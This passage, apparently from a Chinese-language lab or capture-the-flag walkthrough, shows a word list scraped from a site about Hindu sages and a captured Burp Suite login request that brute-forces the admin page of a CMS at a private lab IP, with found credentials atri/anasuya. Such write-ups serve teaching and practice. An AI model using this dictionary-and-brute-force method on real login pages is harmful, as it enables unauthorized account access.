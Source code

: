 ```bash
one
Saptarishis
seven
well
numerous
Indian
mythologies
most
Rishi
listed
colophon
verse
Brihadaranyaka
Upanishad
married
anasuya
common
name
referring
many
different
personalities
Hindu
Buddhist
Footer
Powered
Yajurveda
Atharvaveda
Devi
Toggle
Navigation
Menu
Close
```

#### burpsuite暴力破解

```bash
POST /Kashyapa/admin/login.php HTTP/1.1
Host: 192.168.70.44
Content-Length: 49
Cache-Control: max-age=0
Origin: http://192.168.70.44
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.44/Kashyapa/admin/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: CMSSESSIDcb079ad4d4cb=vt818m8g6kuvfvi9633r7smt8s
Connection: keep-alive

username=atri&password=anasuya&loginsubmit=Submit
```

